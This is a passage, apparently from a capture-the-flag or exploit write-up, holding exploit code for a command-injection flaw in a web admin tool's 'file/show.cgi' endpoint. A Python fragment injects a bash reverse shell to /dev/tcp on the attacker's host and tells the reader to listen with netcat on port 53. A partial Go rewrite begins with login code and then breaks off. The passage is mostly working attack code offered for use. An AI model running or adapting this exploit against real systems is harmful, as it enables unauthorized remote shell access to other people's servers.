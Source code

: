 ```python  
    print("- Using random alphanumeric string: " + rnum)
    payload = f"bash -c 'exec bash -i &>/dev/tcp/{lhost}/{lport}<&1'"
    exp = f"http://{targetIP}/file/show.cgi/bin/{rnum}|{payload}|"
    print("- Executing payload: " + exp)
    req = requests.post(exp, cookies={"sid":sid}, verify=False, allow_redirects=False)
    print("- Run nc -nlvp 53 on attacker machine to listen for the shell with netcat. Restart this exploit if that hasn't been done already.")
else:
    print("Login failed")
```  

**Python cookie parsing examples, here just because...**  

```python  
# c = r.cookies["sid"]
# s = r.headers['Set-Cookie'].replace('\n', '').split('=')[1].split(';')[0].strip()
# si = r.headers['Set-Cookie'].split('=')[1].split(";")[0].strip()
# sid = c.strip("/=; ")
```  


## **I decided to be extra and convert the Python to GoLang...**  

```go  
package main

import (
	"crypto/tls"
	"fmt"
	"io/ioutil"
	"math/rand"
	"net/http"
	"strings"
	"time"
)

func randString(length int) string {
	chars := []rune("abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789")
	rand.Seed(time.Now().UnixNano())
	result := make([]rune, length)
	for i := 0; i < length; i++ {
		result[i] = chars[rand.Intn(len(chars))]
	}
	return string(result)
}

func main() {
	targetIP := "x.x.x.x"
	// localhost and localport so target can talk back to localhost once the exploit is ran.
	lhost := "x.x.x.x"
	lport := "53"

	body := strings.NewReader("page=%2F&user=user1&pass=1user")

	url := fmt.Sprintf("http://%s/session_login.cgi", targetIP)

	tr := &http.Transport{
		TLSClientConfig: &tls.Config{
			InsecureSkipVerify: true,
		},
	}
	client := &http.Client{
		Transport: tr,
		CheckRedirect: func(req *http.Request, via []*http.Request) error {
```